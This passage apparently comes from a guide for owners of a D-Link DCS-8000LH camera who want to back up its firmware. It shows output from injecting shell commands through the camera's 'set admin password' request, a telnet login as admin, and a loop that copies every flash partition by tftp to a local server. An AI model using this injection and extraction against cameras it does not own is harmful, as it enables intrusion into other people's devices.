 ```
 

Attempting to run '[ $(tdb get HTTPServer Enable_byte) -eq 1 ] || tdb set HTTPServer Enable_byte=1' on DCS-8000LH-BBCC by abusing the 'set admin password' request
Attempting to run '/etc/rc.d/init.d/extra_lighttpd.sh start' on DCS-8000LH-BBCC by abusing the 'set admin password' request
Done.


$ telnet 192.168.2.37
Trying 192.168.2.37...
Connected to 192.168.2.37.
Escape character is '^]'.
localhost login: admin
Password: 


BusyBox v1.22.1 (2019-02-14 17:06:35 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.


# for i in 0 1 2 3 4 5 6 7 8; do tftp -l /dev/mtd${i}ro -r mtd$i -p 192.168.2.1; done`
```

Change 192.168.2.37 to the address of your camera and 192.168.2.1 to
the address of your tftp server. Note that most tftp servers require
existing and writable destination files. Refer to your tftp server docs
for details.
